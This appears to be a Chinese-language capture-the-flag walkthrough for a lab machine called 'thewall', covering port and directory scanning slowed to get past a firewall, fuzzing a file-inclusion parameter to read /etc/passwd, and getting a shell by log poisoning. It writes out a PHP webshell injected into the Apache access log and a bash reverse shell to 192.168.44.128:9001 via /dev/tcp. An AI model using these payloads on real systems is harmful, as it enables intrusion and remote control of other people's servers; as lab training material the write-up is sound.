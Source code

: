 
|   |   |   |
|---|---|---|
|thewall|easy|Akamai  防火墙、绕过wall、fuzz、文件包含利用、exiftool提权、sudo提权、ssh私钥利用|

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238 
```

22，80
### 目录扫描

由于目标靶场安装了Akamai  防火墙，正常的扫描会被拦截。所以使用gobuster扫描的时候增加延时和线程控制
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.18.238 -x php -e --delay 1s -t 1 


http://192.168.18.238/includes.php
```
这里扫描出来了一个文件包含名字的文件，尝试对其进行fuzz 参数。这里发现任何访问的响应都是200和长度为2，所以还需要设置排除项
```c
wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.18.238/includes.php?FUZZ=/etc/passwd'


000217299:   200        28 L     41 W       1460 Ch    "display_pag“
```

得到传入的参数为display_page


# GETSHELL
通过bp 爆破了发现利用访问日志记录。

那我们可以尝试写入webshell到日志，然后取包含它

```c
┌──(kali㉿kali)-[~]
└─$ nc 192.168.18.238 80
GET <?php system($_GET['cmd']); ?>

http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash+-c+%27bash+-i+%3E%26/dev/tcp/192.168.44.128/9001+0%3E%261%27
```
